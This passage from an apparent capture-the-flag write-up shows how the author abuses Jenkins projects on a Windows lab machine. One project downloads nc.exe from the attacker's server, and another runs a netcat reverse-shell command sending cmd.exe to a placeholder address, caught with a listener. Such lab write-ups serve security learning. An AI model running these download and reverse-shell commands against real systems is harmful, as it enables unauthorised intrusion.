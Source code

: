 ### 2.3 Alternative Approach:<a name="23-alternative-approach"></a>

While targeting a Windows machine, I took an **alternative approach** by creating two projects in the Jenkins dashboard. **Project 1** executed a batch command that downloaded the **nc.exe** file from my **http server** and saved it to the **\Temp** folder, which I located using `http://10.10.15.191:8080/systemInfo`.

![image](images/alfred-14.png)

In **Project 2**, I was able to utilize a batch command that included both the **nc.exe** and **cmd.exe** files. I was able to locate the latter by enumerating the system information as mentioned earlier. With this method, I was able to generate a reverse shell that I captured using **Netcat** on my attacking machine. The command used was:
```
C:\Users\bruce\AppData\Local\Temp\nc.exe -e C:\Windows\system32\cmd.exe IP_ADDRESS 666
```

This allowed me to establish a connection to the target machine via a reverse shell, which I captured using the command `rlwrap nc -nlvp 666`.

>_It's worth mentioning that `rlwrap` is an useful command line utility that allows us to navigate through command history using the arrow keys._

![image](images/alfred-15.png)

Now that we have an initial shell on this Windows machine as **Bruce**, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\SYSTEM.

---